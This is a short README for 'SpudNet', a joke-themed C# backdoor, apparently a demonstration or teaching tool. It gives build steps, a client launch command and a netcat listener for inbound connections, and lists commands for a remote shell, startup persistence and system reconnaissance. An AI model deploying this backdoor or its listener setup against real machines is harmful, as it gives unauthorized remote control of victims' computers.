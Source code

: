 # SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 

![SpudNet](screenshots/spudnet.png)

## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Download
You can download the latest release of SpudBot.exe from https://github.com/malwaredetective/spudnet/releases/tag/v1.0.0. 

## Building from Source Code
- Clone a copy of the Github repository.
```
git clone https://github.com/malwaredetective/spudnet.git
```
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 4444 -k
```
The SpudNet framework contains built-in commands for the server to help *Spudify* the client.  

| Command | Description |
| --- | --- |
| help | Print out a list of Commands. |
| calc | Count Potatoes with Calculator. |
| desktop | Spudify the Clients Desktop Background. |
| download | Download LilSpud's favorite Poem. | 
| fact | Send LilSpud a random Spudfact. |
| search | Find Potatoes Near LilSpud. |
| shell | Establish a Command Shell with LilSpud. |
| startup | Launch Spudnet on start-up. |
| status | Report the Status of LilSpud. |
| whoami | Query System Information |
| exit | Terminate the Current Session. |
---
